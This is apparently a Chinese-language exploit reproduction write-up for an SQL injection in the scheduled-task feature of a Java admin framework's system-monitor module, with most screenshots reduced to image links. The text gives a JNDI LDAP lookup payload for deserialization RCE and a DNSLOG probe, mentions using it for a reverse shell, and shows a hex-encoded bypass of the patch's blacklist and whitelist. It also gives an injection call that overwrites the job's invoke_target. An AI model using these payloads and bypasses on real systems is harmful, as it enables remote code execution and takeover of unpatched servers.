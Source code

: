 系统监控下定时任务中存在SQL注入漏洞  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicHOJ2Nl7a8Z74icyMqs3CahnJ95aU4o1D0iaJWCeo6j8yicRyKkhEgWGSg/640?wx_fmt=png&from=appmsg "")  
  
在补丁中，使用了黑名单和白名单的策略。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicK5x7ibyicVcIyv3GeiaeD8kuIOicEiafFHflLsSAdeCsCAkcia0PjrqIbFyA/640?wx_fmt=png&from=appmsg "")  
  
SQL注入漏洞点  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicpjILPPqbLfFgcEJz9JlqN8NvhBSdCVYdza2me50decIljsr0q8WGJg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
开始复现  
RCE payload  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicODhm1nFWseX7RpeoKo30Yj6TNBib1mnEOh6tSkBiaDWa3x8ADJbnZ2SQ/640?wx_fmt=png&from=appmsg "")  
```
6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729
```  
  
第一步：运行此命令  
成功地绕过了它，并成功地执行  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
  